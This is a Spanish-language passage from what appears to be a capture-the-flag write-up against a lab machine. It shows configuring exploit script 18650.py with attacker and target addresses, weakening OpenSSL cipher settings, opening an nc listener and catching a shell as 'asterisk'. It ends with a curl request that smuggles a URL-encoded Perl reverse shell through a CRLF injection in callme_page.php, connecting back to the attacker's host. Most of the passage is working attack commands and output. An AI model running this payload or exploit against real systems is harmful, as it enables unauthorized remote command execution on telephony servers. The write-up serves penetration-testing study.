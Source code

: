Modificamos el script con los datos solicitados anteriormente.

```bash
vim 18650.py
  rhost="10.10.10.7"
  lhost="10.10.14.3"
  lport=4564
  extension="233"
```

Para este ejercicio debemos configurar el archivo `/etc/ssl/openssl.cnf` para lograr comunicaciones por cifrados débiles de la siguiente manera.

```bash
sudo vim /etc/ssl/openssl.cnf
#MODIFICAR AL FINAL DEL ARCHIVO
#MinProtocol = DEFAULT@SECLEVEL=2
MinProtocol = None
#CipherString = DEFAULT@SECLEVEL=2
CipherString = None
```

Nos ponemos ahora si en escucha.

```bash
nc -lnvp 4564
```

Ejecutamos el script con `python2`

```bash
python2 18650.py
```

Obtenemos una shell con el usuario `asterisk`

```bash
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.7] 37775
whoami
asterisk
```

## INTRUSION PAYLOAD DE 18650.py

Lo que realizamos es una variante del script anterior, detectando el tipo de solicitud que realiza a nivel web y modificando cada uno de los parámetros, agregando los permisos de ejecutar peticiones con cifrados débiles.

Creamos un listener.

```bash
nc -lnvp 4564
```

Ejecutamos la petición modificada.

```bash
curl --ciphers DEFAULT@SECLEVEL=1 --tlsv1.0 -k "https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.3%3a4564%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A"
```
